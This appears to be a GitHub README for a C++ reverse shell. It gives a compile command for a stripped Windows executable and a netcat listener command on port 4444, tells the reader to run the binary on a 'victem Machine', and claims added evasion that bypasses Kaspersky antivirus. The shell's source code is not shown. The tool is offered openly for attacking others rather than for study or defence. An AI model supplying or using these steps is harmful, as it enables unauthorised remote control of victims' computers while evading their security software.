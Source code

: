 # CPP-Reverse-Shell

Compile it 
![image](https://user-images.githubusercontent.com/96126679/181670089-03f80a6e-abdf-4c2b-837b-d4f3bdfdf464.png)

```
g++ shell.cpp -o shell.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

then listen For the SHELL 

![image](https://user-images.githubusercontent.com/96126679/181670753-1101e02d-c53b-468d-ae60-d1ef99fd58ac.png)

```
nc -lvp 4444

```

then run the exe on the victem Machine 

then Voila.

![image](https://user-images.githubusercontent.com/96126679/181671006-b19239e2-7fd5-46d0-83ef-f45d7741e743.png)


Added Evasion techniques byPassed Kaspersky Antivirus until today 
